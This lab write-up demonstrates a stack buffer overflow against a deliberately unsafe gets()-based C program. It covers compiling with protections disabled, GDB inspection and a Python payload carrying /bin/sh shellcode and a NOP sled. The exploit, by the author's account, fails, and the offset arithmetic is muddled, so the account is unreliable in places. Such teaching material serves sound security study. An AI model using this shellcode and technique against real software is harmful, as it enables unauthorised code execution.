

# **Stack Smashing Attack: Exploiting Buffer Overflow to Execute Arbitrary Shellcode**

<div style="margin-bottom: 20px"></div>


# Introduction - Description of the attack

In this demo, I demonstrate a stack-based attack known as stack smashing. The main objective of the attacker is usually to change the control flow of the program, allowing the attacker to execute arbitrary code on the target system. My goal was to overflow the buffer and overwrite the return address on the stack so that, when the vulnerable function returned, the execution would jump to my injected shellcode. The shellcode was designed to launch a shell (/bin/sh). If successful, this would give me arbitrary command execution from within the vulnerable program, simulating how attackers exploit memory vulnerabilities to gain control over a system. I generated a simple C program containing a function that defines a fixed-size buffer on the stack. This function uses the unsafe gets() function to read user input, which doesn’t perform any bounds checking. As a result, when I supplied more input than the buffer can hold, I was able to overwrite adjacent memory on the stack, including the saved return address of the function.

However, the exploit was not successful. Despite trying multiple payload offsets and carefully analyzing the stack, I was not able to reliably determine the exact memory address to overwrite the return address with. The program consistently crashed due to segmentation faults, likely because of inaccurate address targeting. 

___

## Threat Model
For this attack to be feasible, the attacker must possess the following capabilities:

 1. The attacker has access to the source code of the vulnerable program on their local machine and identifies a buffer overflow vulnerability.

 2. The attacker has developed an exploit for the vulnerability with the goal of injecting and executing custom shellcode to launch a shell.

___

## Environment Setup
The demonstration was carried out natively on Ubuntu MATE 25.04 "Plucky Puffin" (64-bit) with the following packages installed:

```
sudo apt install gcc-multilib   //for compiling 32-bit C programs
sudo apt install gdb            // for stack memory inspection
sudo apt install python3        // for running python programs
sudo apt install execstack      // makes stack executable
```

Here are the steps that were carried out:
___

## Step 1: Creating a Vulnerable Program
I generated a simple C program (vuln.c) with a function that uses the unsafe gets() function to read user input into a local buffer. This introduced a buffer overflow vulnerability, as gets() does not check the length of the input.

```
/*  vuln.c  ── deliberately unsafe  */
#include <stdio.h>

/* gets() was removed from modern headers; declare it manually */
char *gets(char *);

void vulnerable_function() {
    char buffer[64];
    printf("Enter input: ");
    gets(buffer); 
    printf("You entered: %s\n", buffer);
}

int main() {
    vulnerable_function();
    return 0;
}
```


___

## Step 2: Compiling the Program Without Protections
To make the buffer overflow exploit possible, I compiled the code with the following security protections disabled:

1. Stack canary: disabled using -fno-stack-protector

2. Non-executable stack: disabled using -z execstack

3. ASLR-friendly PIE (Position Independent Executable): disabled using -no-pie

4. 32-bit architecture: enabled with -m32 (as it simplifies address prediction)

```
gcc -m32 -fno-stack-protector -z execstack -no-pie vuln.c -o vuln

```
___

## Step 3: Finding the Offset and ESP Location with GDB
To understand the memory layout and determine where to inject my shellcode, I used GDB (GNU Debugger) to inspect the stack at runtime. The GDB, (GNU Debugger), allows you to see what is going on `inside' another program while it executes, or what another program was doing at the moment it crashed. 

I set a breakpoint at the gets() function, which is where the vulnerable buffer resides:
```
gdb ./vuln
(gdb) break gets
(gdb) run
```

Once the program hit the breakpoint, I used the following command to inspect the stack pointer (ESP) and view the contents of the stack:
```
(gdb) info registers esp
(gdb) x/80x $esp
```



This allowed me to identify where the return address was located in relation to the buffer. From this, I calculated how many bytes I needed to overflow the buffer and reach the return address. This offset was found to be 76 bytes in my case. I used 76 bytes in total because the buffer was 64 bytes, plus 4 bytes for the saved base pointer (EBP), and 4 bytes to overwrite the return address, with an extra 4 bytes as padding to ensure proper alignment, making it a total of 76 bytes.

The goal was to overwrite the return address with the address pointing to the start of my shellcode in the stack. I approximated this address based on the output of info registers esp, often slightly increasing it to point just past the NOP sled and into the shellcode.

___


## Step 4: Writing the Exploit Payload
I generated a Python script (exploit.py) to generate a payload containing:

A sequence of NOP (\x90) instructions and a shellcode to execute /bin/sh. A NOP (no-operation) sled is used as part of binary exploitation code to provide flexibility for exploitation accuracy and evade signatures before and after the exploitation has occurred and to transfer execution to the malicious code. The purpose of the NOP sled is to increase the chance of successful redirection so that if the return address lands anywhere in the NOP sled, the processor will “slide” down the NOPs until it reaches the shellcode.

The payload is designed to fill the buffer with 76 bytes of padding ("A" * 76) to overwrite the saved return address with the address of the buffer where the shellcode is located.

```
# exploit.py
shellcode = (
    b"\x31\xc0"              # xor eax, eax
    b"\x50"                  # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"              # mov ebx, esp
    b"\x50"                  # push eax
    b"\x53"                  # push ebx
    b"\x89\xe1"              # mov ecx, esp
    b"\x99"                  # cdq
    b"\xb0\x0b"              # mov al, 0xb
    b"\xcd\x80"              # int 0x80
)

padding = b"\x90" * (76 - len(shellcode))  # NOP sled to fill up to offset
payload = padding + shellcode

# Address pointing into NOP sled (adjust slightly if needed)
return_address = 0xffffceb4 + 20  
payload += return_address.to_bytes(4, 'little')

with open("payload", "wb") as f:
    f.write(payload)
```

To generate the payload:

```
python3 exploit.py
```
This creates a file named payload, which can then be passed as input to the vulnerable program.


___

## Step 5: Executing the Exploit
I passed the payload to the vulnerable program using input redirection:

```
./vuln < payload
```

___

## Step 6: Observing the Result
After running the exploit, the program crashed with a segmentation fault instead of launching a shell. I had placed my shellcode in the input along with a NOP sled to increase the chances of hitting it. I also inspected the stack using gdb to find a return address that pointed somewhere into the NOP sled. However, the program still crashed. This suggests that the return address I used didn’t correctly point to the shellcode in memory. 


During the exploitation phase, after placing a breakpoint at gets() using GDB, I checked the value of the stack pointer (ESP) using the command info registers esp. The value returned was **0xffffceb4** (step 3), which indicated where the buffer began in memory.

To determine the correct return address for redirecting execution to the shellcode, I inspected the stack using x/80x $esp and manually analyzed several memory addresses. Among the addresses I tried were **0xffffceb4**, **0xffffce84**, **0xffffce64**, and **0xffffce34**. Each of these addresses pointed to different parts of the stack where the NOP sled or shellcode might reside. Despite multiple attempts and address adjustments, each payload resulted in a segmentation fault, suggesting that the return address did not accurately point to the shellcode location.

It is likely that the offset or the stack address changed at runtime, making it unreliable. Since stack addresses can vary and are sometimes affected by protections like ASLR and stack canaries (even if partially disabled), the shellcode wasn't reached and executed.

___

## Acknowledgement 
ChatGPT was used to obtain step-by-step procedures, technical explanations, and code examples relevant to buffer overflow exploitation.

## References
1. Alouneh, S., Kharbutli, M., & AlQurem, R. (2013). Stack Memory Buffer Overflow Protection based on Duplication and Randomization. Procedia Computer Science, 21, 250–256. https://doi.org/10.1016/j.procs.2013.09.033

2. Norby, A., Rimal, B. P., & Brizendine, B. (2025). Identification of Arbitrary Length Shellcode for the Intel x64 Architecture as a NOP Sled. IEEE Access, 1. https://doi.org/10.1109/access.2025.3560209

3. GDB: The GNU Project Debugger. (n.d.). https://sourceware.org/gdb/

4. \
